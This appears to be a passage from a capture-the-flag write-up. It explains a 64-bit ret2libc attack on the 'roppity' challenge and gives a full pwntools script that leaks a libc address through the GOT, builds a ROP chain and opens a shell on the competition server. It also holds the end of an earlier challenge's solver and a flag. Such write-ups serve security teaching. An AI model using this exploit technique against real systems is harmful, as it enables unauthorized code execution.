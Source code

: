 ```
    print("new_id={}".format(new_id))
    resp = view(new_id, new_int)
    if '>:(' in resp: i += 1
    else:
        print(i, resp)
        break
# i = 13, flag{h4ck_th3_h4sh}
```

### Pwn

#### roppity

A basic 64-bit ret2libc challenge! By using rop, we can read the content of GOT table, which contains libc addresses of functions used in the binary (for instance by calling `puts(puts)` to print out its own function). And from the libc file provided along, we can take the offset from the function to get libc base address, and offset to `system('/bin/sh')` to pop a shell.

However, there are some differences in 32 and 64-bit function calling convention. Instead of pushing function arguments on the stack, 64-bit binary loads the arguments into certain registers first, if all registers are used then it pushes remaining arguments on the stack. So we need to find rop gadgets to help us load arguments for the functions (I used [ropper](https://github.com/sashs/Ropper)).

Lastly ... there is this weird address alignment for calling `system()`, which requires a `ret` before popping the shell (a [stackoverflow discussion](https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call)). Once you pop the shell ... just grab flag :D (and please don't try to mess around on the server)

Final script
```
#!/usr/bin/env python3

from pwn import *

p = remote("pwn.chal.csaw.io", 5016)
elf = ELF("./rop")
libc = ELF("./libc-2.27.so")
"""
use ropper to find gadget:

ropper -f rop --search 'pop rdi'
0x0000000000400683: pop rdi; ret;

ropper -f rop --search 'ret'
0x000000000040048e: ret;
"""
pop_rdi = 0x400683
ret = 0x40048e
print(p.recvline())
exploit = b"a" * 40 + p64(pop_rdi) + p64(elf.got["puts"]) + p64(elf.symbols["puts"]) + p64(elf.symbols.main)
p.sendline(exploit)
leaked = p.recvline().strip(b'\n') + b'\x00\x00' # 8 byte align address
print(leaked, len(leaked))
puts_leak = u64(leaked)
log.info("puts libc is {}".format(hex(puts_leak)))
libc_base = puts_leak - libc.symbols.puts
system_addr = libc_base + libc.symbols.system
binsh_str = libc_base + next(libc.search(b"/bin/sh"))
log.info("got system at {}".format(hex(system_addr)))
log.info("got /bin/sh at {}".format(hex(binsh_str)))

exploit = b"a" * 40 + p64(pop_rdi) + p64(binsh_str)+ p64(ret) + p64(system_addr)
p.sendline(exploit)
p.interactive()
```
